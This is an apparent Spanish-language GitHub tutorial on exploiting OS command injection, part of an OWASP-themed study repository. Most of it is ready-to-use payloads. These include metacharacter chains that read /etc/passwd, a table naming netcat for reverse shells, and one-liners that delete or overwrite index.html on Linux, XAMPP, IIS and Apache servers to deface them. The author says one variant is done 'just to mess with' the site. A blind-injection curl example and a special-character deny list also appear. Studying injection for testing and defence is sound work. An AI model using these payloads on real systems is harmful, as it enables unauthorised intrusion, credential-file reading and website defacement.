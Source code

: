 # Fz3r0 OWASP 💀🐝 - Command Injection 💉

## 💀 ¿Cómo explotar vulnerabilidad CMDI?

Una vez que se encontró la vulnerabilidad `in-band` o `blind` se procede a explotar de las siguientes maneras: 

## 💣 `In-Band CMDI: exploitation`

1. 💥 Utilizar `shell metacharacters` como [payload](https://github.com/Fz3r0/Fz3r0_-_Command_Injection/blob/main/12_Fz3r0_CMDI_-_Payloads/Command_Injection_Payloads.md) inicial:

````py
## General deny list to be included for command injection:
| ; & $ > < ' \ ! >> #

## Escape or filter special characters for --->>> Windows
( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `

## Escape or filter special characters for --->>> Linux
{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " %  / \ : + , `

````

2. 💥 **Concatenar** comandos:

````py
## Concatena 127.0.0.1 + cat /etc/passwd + (concatena lo que sigue en el comando original con un &)

### Opción 1:
127.0.0.1 && cat /etc/passwd &

### Opción 2:
127.0.0.1 & cat /etc/passwd &

### Opción 3:
127.0.0.1 || cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

.
.
.

etc

````

### Ejemplos de payloads:

- `Linux`:

| **Payload** | **Descripción**                                                                                                                                                                                                                       |   |
|-------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---|
| whoami      | Muestra el usuario bajo el cual se está ejecutando la aplicación.                                                                                                                                                                     |   |
| ls          | Lista el contenido del directorio actual. Puedes encontrar archivos como configuraciones, tokens y claves de aplicaciones, y muchas otras cosas valiosas.                                                                             |   |
| ping        | Este comando provocará que la aplicación se quede colgada. Útil para probar una aplicación en busca de una inyección de comandos a ciegas.                                                                                            |   |
| sleep       | Otro payload útil para probar una aplicación en busca de una inyección de comandos a ciegas, especialmente si la máquina no tiene instalado el comando ping.                                                                          |   |
| nc          | Netcat se puede usar para generar una shell inversa en la aplicación vulnerable. Puedes utilizar este punto de apoyo para moverte por la máquina objetivo y buscar otros servicios, archivos o posibles formas de elevar privilegios. |   |

- `Windows`:

| **Payload** | **Descripción**                                                                                                                                                                                                                       |   |
|-------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---|
| whoami      | Muestra el usuario bajo el cual se está ejecutando la aplicación.                                                                                                                                                                     |   |
| dir         | Lista el contenido del directorio actual. Puedes encontrar archivos como configuraciones, tokens y claves de aplicaciones, y muchas otras cosas valiosas.                                                                             |   |
| ping        | Este comando provocará que la aplicación se quede colgada. Útil para probar una aplicación en busca de una inyección de comandos a ciegas.                                                                                            |   |
| timeout     | Este comando también provocará que la aplicación se quede colgada. Es útil para probar una aplicación en busca de una inyección de comandos a ciegas si el comando ping no está instalado.                                            |   |
| nc          | Netcat se puede usar para generar una shell inversa en la aplicación vulnerable. Puedes utilizar este punto de apoyo para moverte por la máquina objetivo y buscar otros servicios, archivos o posibles formas de elevar privilegios. |   | 

- `index.html defacement`

Algo un poco mas complejo como un `defacement` se podría ver algo así:

1. Buscar por algún archivo con la extensión `*.html` / buscar directamente por el `*.index.html` / mapear directorio default para hosting de página. 

````sh
# Ejemplo 1
127.0.0.1 ; find / -type f -name "*.html" &

# Ejemplo 2
127.0.0.1 ; ls /var/www/ &

````

2. Crear un nuevo `index.html` con el defacement utilizando un `one-liner`, el original se guarda en un backup `.bak`:

````sh
127.0.0.1 ; cp /var/www/html/index.html /var/www/html/index.bak && echo "Hola mundo, soy Fz3r0" > /var/www/html/index.html &

````

O algo todavía más complejo, esto ya es un código HTML para un buen defacement _(aquí borramos la página original sin guardar backup, solo por chingar)_:

- **`Linux`:**

````sh
127.0.0.1 ; rm /var/www/html/index.html && echo '<!DOCTYPE html><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el titulo Fz3r0</h1><h2>Este es el titulo 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html>' > /var/www/html/index.html &

````

- **`Windows`:**

````cmd
## XAMPP copiando original:
127.0.0.1 & ren C:\xampp\htdocs\index.html index.bak & copy NUL C:\xampp\htdocs\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\xampp\htdocs\index.html &

## XAMPP borrando original:
127.0.0.1 & copy NUL C:\xampp\htdocs\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\xampp\htdocs\index.html &

## IIS borrando original:
127.0.0.1 & copy NUL C:\inetpub\wwwroot\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\inetpub\wwwroot\index.html &

## Apache copiando original:
127.0.0.1 & ren C:\mi_apache\www\index.html index.bak & copy NUL C:\mi_apache\www\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\mi_apache\www\index.html &

````

## 💣 `Out-Of-Band AKA "Blind" CMDI: exploitation`

La inyección de comandos a ciegas o `blind`, ocurre cuando se produce una inyección de comandos; sin embargo, no hay una salida visible, por lo que no es inmediatamente detectable. Por ejemplo, se ejecuta un comando, pero la aplicación web no muestra ningún mensaje.

Para este tipo de inyección de comandos, necesitaremos utilizar payloads que causen cierto retraso en el tiempo. Por ejemplo, los comandos `ping` y `sleep` son payloads que normalmente se utilizan para probar. 

- Usando `ping` como ejemplo, la aplicación se quedará colgada durante x segundos en relación con la cantidad de pings que hayas especificado.

Otro método para detectar la inyección de comandos a ciegas es forzando alguna salida o `output`. Esto se puede lograr utilizando operadores de redirección como `>` de Linux. 

- Por ejemplo, podemos indicarle a la aplicación web que ejecute comandos como `whoami` y redireccionarlos a un archivo.
- Luego, podemos utilizar un comando como `cat` para leer el contenido de este archivo recién creado.
- El comando `curl` es una excelente manera de probar la inyección de comandos. Esto se debe a que puedes usar `curl` para enviar y recibir datos desde una aplicación en tu payload.
- Probar la inyección de comandos de esta manera a menudo es complicado y requiere bastante experimentación, especialmente porque la sintaxis de los comandos varía entre `Linux` y `Windows`.

Por ejemplo, un payload simple de curl a una aplicación es posible para la inyección de comandos como el siguiente:

````sh
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami
````

## 📖 Recursos

- [Port Swigger - Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP - Command Injection Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [OWASP - Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
- [Udemy - Rana Khalil | Command Injection ](https://www.udemy.com/course/mastering-command-injection-the-ultimate-hands-on-course/learn/lecture/39297722#overview)
